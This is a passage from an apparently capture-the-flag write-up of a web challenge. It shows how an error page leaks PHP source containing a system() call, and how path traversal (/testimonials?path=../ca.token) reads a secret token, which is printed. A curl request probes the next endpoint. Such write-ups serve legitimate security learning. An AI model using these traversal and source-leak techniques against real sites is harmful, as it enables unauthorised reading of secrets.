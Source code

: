 From the `/testimonials?path[]=` error page we notice that while a full path traversal is impossible, we can generate another error in the `file_get_contents` call if the path is a directory. This is simple as navigating to `/testimonials?path=.`.

In the source code leaked from this page, we can find a very interesting function

{% highlight php %}
    public function cmdInjection(Request $request) {

        $tpath = "../resources/";

        $tpath = public_path($tpath);

        $cmdOutput = system('ls -al ' . resource_path());

        die($cmdOutput);

    }
{% endhighlight %}

This lists files from the `resources` folder (which is the only one accessible through the `/testimonials` endpoint).

After ~~four hours~~ and a few guesses, we found the correct endpoint for the function to be `/cmd`. 

This returns 

```
total 32 
drwxrwxr-x 7 sail sail 4096 Apr 14 04:50 . 
drwxrwxr-x 13 sail sail 4096 Apr 14 21:56 .. 
drwxrwxr-x 6 sail sail 4096 Apr 14 04:50 ca 
-rw-rw-r-- 1 sail sail 32 Apr 14 04:50 ca.token 
drwxrwxr-x 2 sail sail 4096 Apr 14 04:50 css 
drwxrwxr-x 2 sail sail 4096 Apr 14 04:50 js 
drwxrwxr-x 2 sail sail 4096 Apr 14 04:50 testimonials 
drwxrwxr-x 2 sail sail 4096 Apr 14 21:56 views 
drwxrwxr-x 2 sail sail 4096 Apr 14 21:56 views
```

`ca.token` looks interesting, and we can get it with  `/testimonials?path=../ca.token`.

```
a0c6d51083a505ff45ad8d12c42bcb04
```

### Step 4. `/mastercrypt` (redirect)

Remember the `/mastercrypt` endpoint from the last cipher? At a first glance it looks like a redirect to the main page but upon closer inspection of the redirect headers we find
 
```
$ curl --head https://mastershackle.cha.hackpack.club/mastercrypt

HTTP/2 302 
cache-control: no-cache, private
content-type: text/html; charset=UTF-8
date: Sat, 15 Apr 2023 16:07:49 GMT
date: Sat, 15 Apr 2023 16:07:49 GMT
errormessage: No cookie named token was passed, or the value was not correct!
host: mastershackle.cha.hackpack.club
[...]
```
